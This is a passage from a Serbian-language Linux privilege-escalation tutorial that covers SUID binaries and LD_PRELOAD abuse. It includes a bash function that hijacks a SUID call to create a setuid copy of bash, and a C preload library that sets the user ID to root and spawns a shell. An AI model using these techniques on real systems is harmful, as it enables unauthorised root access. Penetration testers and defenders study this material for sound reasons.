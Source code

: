Ova tehnika takođe može biti korišćena ako **suid** binarni fajl **izvršava drugu komandu bez navođenja putanje do nje (uvek proverite sadržaj čudnog SUID binarnog fajla pomoću** _**strings**_**)**.

[Primeri payloada za izvršavanje.](payloads-to-execute.md)

### SUID binarni fajl sa putanjom komande

Ako **suid** binarni fajl **izvršava drugu komandu navodeći putanju**, tada možete pokušati da **izvezete funkciju** nazvanu kao komanda koju suid fajl poziva.

Na primer, ako suid binarni fajl poziva _**/usr/sbin/service apache2 start**_, morate pokušati da kreirate funkciju i izvezete je:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Zatim, kada pozovete suid binarnu datoteku, ova funkcija će biti izvršena

### LD\_PRELOAD & **LD\_LIBRARY\_PATH**

Okružena promenljiva **LD\_PRELOAD** se koristi da specificira jednu ili više deljenih biblioteka (.so fajlova) koje će biti učitane od strane loadera pre svih ostalih, uključujući standardnu C biblioteku (`libc.so`). Ovaj proces se naziva prethodno učitavanje biblioteke.

Međutim, kako bi se održala sigurnost sistema i sprečila zloupotreba ove funkcionalnosti, posebno sa **suid/sgid** izvršivim fajlovima, sistem primenjuje određene uslove:

* Loader ignoriše **LD\_PRELOAD** za izvršive fajlove gde stvarni korisnički ID (_ruid_) se ne podudara sa efektivnim korisničkim ID (_euid_).
* Za izvršne fajlove sa suid/sgid, samo biblioteke u standardnim putanjama koje su takođe suid/sgid se prethodno učitavaju.

Eskalacija privilegija može da se dogodi ako imate mogućnost izvršavanja komandi sa `sudo` i izlaz `sudo -l` uključuje izjavu **env\_keep+=LD\_PRELOAD**. Ova konfiguracija omogućava da okružena promenljiva **LD\_PRELOAD** ostane prisutna i bude prepoznata čak i kada se komande pokreću sa `sudo`, što potencijalno može dovesti do izvršavanja proizvoljnog koda sa povišenim privilegijama.

```
Defaults        env_keep += LD_PRELOAD
```

Sačuvaj kao **/tmp/pe.c**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
